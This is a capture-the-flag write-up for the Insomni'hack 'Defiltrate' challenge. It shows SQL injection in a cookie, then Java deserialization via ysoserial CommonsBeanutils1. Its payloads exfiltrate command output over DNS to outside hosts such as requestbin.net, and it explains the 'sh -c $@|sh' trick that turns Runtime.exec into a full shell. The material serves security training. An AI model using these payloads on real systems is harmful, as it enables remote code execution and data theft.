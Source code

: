 # Defiltrate – Part1

## Description

Our company has been victim of a Ransomeware that damaged our "Secure share" website. Access to "Secure share" has been partially restored and traces of the malware have been deposited on it.

Can you help us retrieve our files?

http://defiltrate.insomnihack.ch/

## Task

Task was corrupted and we pass the stage with SQL Injection in Cookie, that give us credentials to login.

Main POST request with vulnerability:

```
POST / HTTP/1.1
Host: defiltrate.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Origin: https://defiltrate.insomnihack.ch
Connection: close
Referer: https://defiltrate.insomnihack.ch/
Cookie: PINKYID=3d736b46da3149f488c76295c7dece42
Upgrade-Insecure-Requests: 1

VIEW=rO0ABXNyAApXZWJTZXNzaW9uAAAAAAAAAAECAARMAAxtX2I2NFBheWxvYWR0ABJMamF2YS9sYW5nL1N0cmluZztMAAdtX2xvZ2lucQB%2bAAFMAAptX3Bhc3N3b3JkcQB%2bAAFMAAttX3Nlc3Npb25JRHEAfgABeHB0AARqYWNrdAAFYWRtaW50ABVJIGxvdmUgcGluayBwb25pZXMgPDN0AAI0Mg%3d%3d&get=&rm=
```

Here we can see that the VIEW parameter has a base64 encoded value starting with rO0AB which is the beginning of base64 encoded java serialized object:

First, we tried to view what the object holds, so we used a tool called [SerializationDumper](https://github.com/NickstaDB/SerializationDumper).

We got an object containing 4 properties, the first part of the deserialization output contains some information about the object and its properties (type,name,length,..etc), scrolling down the output we can see the values of the properties:

```
values
    m_b64Payload
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 03
        Length - 0 - 0x00 00
        Value -  - 0x
    m_login
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 04
        Length - 5 - 0x00 05
        Value - admin - 0x61646d696e
    m_password
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 05
        Length - 21 - 0x00 15
        Value - I love pink ponies <3 - 0x49206c6f76652070696e6b20706f6e696573203c33
    m_sessionID
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 06
        Length - 2 - 0x00 02
        Value - 42 - 0x3432
```

Trying the unsafe deserialization with ysoserial payload `CommonsBeanutils1` give the successful result.

```
java -jar ysoserial.jar CommonsBeanutils1 'curl empty.jack.su' | base64 -w0
```

### The solution 1

Source: https://r3billions.com/writeup-defiltrate-part1/

We got a DNS request to our bin, but in fact there was a firewall in place so we couldn't establish an OOB communication in a way other than DNS.

We started trying to execute commands using command substitution as subdomains to our DNS bin like $(whoami) or using back ticks but for some reason they were escaped (Cause Runtime.exec from CommonsBeanurils1 payload do tokenization of command and execute exec with arguments.) and sent as is without execution, we tried to use nslookup ourdns.com|bash sending a request to our DNS server with a customized response but the piping in this case didn't work too.

After some trial and error we could leak data using these 2 commands in separate payloads

```
python -c open('/tmp/exfilterate','w').write(__import__('os').popen('ls').read().replace('\n','-')[:62]+'.6ec8bf6181774bda185e.d.requestbin.net')
```

and

```
dig -f /tmp/exfilterate
```

Note: spaces were not allowed in the python payload for some reason so we replaced it with chr(32)

The first payload runs a python code that executes bash commands and appending the result to a DNS bin domain then writes it to a file. The second one executes a dig on the content of the file.

Executing the following command `grep -rnw '/' -e INS`

```
python -c open('/tmp/exfilterate','w').write(__import__('os').popen('grep'+chr(32)+'-rnw'+chr(32)+'/'+chr(32)+'-e'+chr(32)+'INS').read().replace('\n','-')+'.7d62a86d9d50bc553648.d.requestbin.net')
```

Resulted in a DNS request with the flag:


### The solution 2

Helpful links: 
- https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html?m=1
- https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Special-Parameters

If you happen to have command execution via Java's `Runtime.exec` on a Unix system, you may already have noticed that it doesn't behave like a normal shell. Although simple commands like `ls -al`, `uname -a`, or `netstat -ant` work fine, more complex commands and especially commands with indispensable features like pipes, redirections, quoting, or expansions do not work at all.

Well, the reason for that is that the command passed to `Runtime.exec` is not executed by a shell. Instead, if you dig down though the Java source code, you'll end up in the UNIXProcess class, which reveals that calling `Runtime.exec` results in a `fork` and `exec` call on Unix platforms.

So if we want execute bash command using `sh -c` we have to know the following:

That is correct, but here is the catch: Since only the first argument following `-c` is interpreted as shell command, the whole shell command must be passed as a single argument. And if you take a closer look at how the string passed to `Runtime.exec` is processed, you'll see that Java uses a `StringTokenizer` that **splits the command at any white-space character**.

So, what is the other option that we have?

The key is in the `sh -c command`, but we won't execute the command directly but build a command that itself spawns another shell that then executes our command. Though it sounds complicated, we'll derive it step by step.

The secret key to this is the [special parameter](http://www.gnu.org/software/bash/manual/bashref.html#Special-Parameters) `@`, which expands to the positional parameters when referenced with `$@`, starting from parameter one: `sh -c $@`

But how do we pass the actual command? Well, if the [shell is invoked
with `-c`](http://www.gnu.org/software/bash/manual/bashref.html#Invoking-Bash), any remaining arguments after the command argument are assigned to the positional parameters, starting with `$0`. So when `$@` is expanded by the shell with the following invocation:

    $ java Exec 'sh -c $@ 0 1 2 3 4 5'

It results in `1 2 3 4 5`. The 0-th parameter does not appear in the expansion result as it, by convention, should be the file name associated with the file being executed. We can see the result by adding a `echo` in place of the `$1` parameter:

    $ java Exec 'sh -c $@ 0 echo 1 2 3 4 5'

Here the shell first expands `$@` to `echo 1 2 3 4 5` and then executes it.

But this is still not better than the simple `sh -c command`, as we still have no support of pipes, redirections, quoting or expansion.

The reason for this is that the `$@` expansion does not result in a restart of the command interpretation.

The solution to a fully functional shell is `sh`\'s ability to allow the commands to be passed via standard input. So, if we use another `echo` to echo our command and pipe it to `sh`, we\'ll get our *command* executed by `sh` entirely:

    $ java Exec 'sh -c $@|sh . echo command'

Now we have all shell features available!

And we could create one line command to find flag in OS:


Get pwd:
```
java -jar ysoserial.jar CommonsBeanutils1 'sh -c $@|sh . echo echo 0 > /tmp/exf; cont=$(pwd); echo $cont.empty.jack.su >> /tmp/exf; dig -f /tmp/exf' | base64
```

Find flag:
```
java -jar ysoserial.jar CommonsBeanutils1 'sh -c $@|sh . echo echo 0 > /tmp/exf; for cont in $(grep -r INS /opt/defiltrate/* 2>/dev/null); do echo $cont.empty.jack.su >> /tmp/exf; done; dig -f /tmp/exf' | base64
```

The flag:
INS{DEFILTRATE-F!RST-FLAG__BE-BRAVE,-THE-END-IS-NEAR}